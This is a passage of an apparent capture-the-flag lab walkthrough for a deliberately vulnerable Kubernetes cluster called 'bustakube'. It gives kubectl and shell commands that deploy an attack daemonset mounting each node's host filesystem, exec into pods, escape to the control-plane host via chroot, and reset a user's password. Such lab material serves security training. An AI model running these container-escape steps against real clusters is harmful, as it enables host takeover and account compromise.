 85. Note how the pod mounts a volume called `hostroot`, which is the node's host filesystem `/`, onto the container's `/mnt`.

86. Let's apply this attack daemonset with:

    ```shell
    kubectl apply -f daemonset-attack.yaml
    ```

87. See where this staged pods by running:

    ```shell
    kubectl get pods -o wide
    ```

88. Go get your other node flag, by using a `kubectl exec` on the `attack-daemonset` pod that corresponds to the node you haven't compromised already.

    ```
    kubectl exec attack-daemonset-STR1 -- cat /mnt/FLAG.txt
    # Do not copy and paste this - you need to fill in STR1
    ```

89. Now, let's go compromise the control plane node.  Run a `kubectl` for whichever pod corresponds to the `bustakube-controlplane` (hint: look at the output of `kubectl get pods -o wide`):

    ```
    kubectl exec -it attack-daemonset-STR2 -- /bin/bash
    # Do not copy and paste this - you need to fill in STR2
    ```

90. Now change bustakube's password on the `bustakube-controlplane` system:

    ```shell
    chroot /mnt /bin/bash
    passwd bustakube
    ```

91. Enter in a password - we choose `bustakube` to keep things simple:

    ```
    bustakube
    bustakube
    ```

92. We are chrooted into the `/mnt` directory in this container (the `/` directory on this node). Let's look for a flag.

    ```shell
    ls /
    ```

93. Grab the last flag:

    ```shell
    cat /FLAG.txt
    ```
